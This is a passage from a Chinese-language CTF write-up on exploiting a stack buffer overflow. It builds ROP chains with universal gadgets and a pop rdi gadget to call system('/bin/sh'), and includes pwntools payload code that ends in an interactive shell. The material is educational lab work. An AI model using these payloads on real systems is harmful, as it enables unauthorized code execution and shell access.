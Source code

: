 注意每个got会有一个ret，因此需要一个地址承接住（最好选择0x400740）,选择0x40075a也可以，只不过下面的会变成6*8字节罢了

跳过判断后，rsp会前移8个字节，同时我们又希望覆盖住（实际上是填充），所以这里可以用'\x00'也没关系，所以需要填充，同时pop这个指令会让rsp指针后移8位，因此我们需要在相对数据底部放置想要返回的地址(可以是上面mov：740，也可以直接到任意一个地方，只要你的栈布置得够好就行)

，同时填充7*8字节（看指令就知道了）,利用这个ret返回到函数开始的地方，并将剩下的字节填充完整

因此：

```
wanamov = 0x400740
start_addr = 0x4006b8
payload += p64(wanamov) + b'\x00' * 56 + p64(start_addr)
payload = payload.ljust(0x200,b'b')
```

注意我们调用了read函数，因此在发送后并接收到提示符

，我们要输入''/bin/sh\x00'

为什么会输出bye?

因为我们第一次修改的ret的地址是此函数的ret，在ret之前还有输出函数

![image-20240424165630127](${images}/image-20240424165630127.png)

![image-20240423222002054](${images}/image-20240423222002054.png)

```
p.send(payload)
p.recvuntil('bye~\n')
p.send(b'/bin/sh\x00')
```

回到main函数后，再次栈溢出，利用system@got将rdi指针指向bin/sh即可。

而且我们需要带有ret的rdi指针，那么很巧的是，有个通用的gadgets有：

![image-20240423214835218](${images}/image-20240423214835218.png)

也就是pop r15处的下个字节有，为什么不用上面的mov？因为mov不从栈中收取数据，

关于为什么会有，查看PS栏处的通用Gadgets就知道了

```
#调用system函数
payload = b'a' * offset#栈溢出
payload += p64(poprdi_addr)#retn指向rdi
payload += p64(bin_sh_addr)#rdi所需参数
payload += p64(0x4004e1)#此处调用的是got，因此需要添加一个返回值，以应付got的push
payload += p64(system_addr)#将上面的参数作为system函数的参数
payload = payload.ljust(200, b"B")#填充多余数据

p.send(payload)
p.interactive()
```

在edb我们可以直接修改寄存器的值，已达到快速的目的，这是写在python里的解法
